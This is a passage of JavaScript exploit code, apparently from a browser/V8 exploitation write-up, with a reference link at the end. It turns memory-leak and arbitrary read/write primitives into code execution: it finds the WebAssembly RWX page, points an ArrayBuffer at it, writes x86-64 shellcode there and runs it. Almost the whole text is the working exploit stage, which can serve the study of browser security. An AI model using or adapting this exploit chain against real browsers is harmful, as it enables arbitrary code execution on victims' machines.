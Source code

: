```
    var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule, `{``}`);
    var f = wasmInstance.exports.main;
    var buf = new ArrayBuffer(0x100);
    var dataview = new DataView(buf);

    var wasm_instance_addr = addrof(wasmInstance) - 1n;
    console.log("[+]leak wasm instance addr: " + hex(wasm_instance_addr));
    var rwx_page_addr = arb_read(wasm_instance_addr + 0x68n);
    console.log("[+]leak rwx_page_addr: " + hex(rwx_page_addr));

    var buf_addr = addrof(buf)  - 1n;
    var backing_store = buf_addr + 0x14n;

    var shellcode = [0x90909090,0x90909090,0x782fb848,0x636c6163,0x48500000,0x73752fb8,0x69622f72,0x8948506e,0xc03148e7,0x89485750,0xd23148e6,0x3ac0c748,0x50000030,0x4944b848,0x414c5053,0x48503d59,0x3148e289,0x485250c0,0xc748e289,0x00003bc0,0x050f00];

    arb_write(backing_store,rwx_page_addr);

    for(var i = 0; i &lt; shellcode.length; i++) `{`
        dataview.setUint32(4 * i, shellcode[i], true);
    `}`

    f();
`}`
setTimeout(() =&gt; pwn() , 4);
```



## Reference

<a>https://hackmd.io/@aventador/BJkOOyi8u</a>
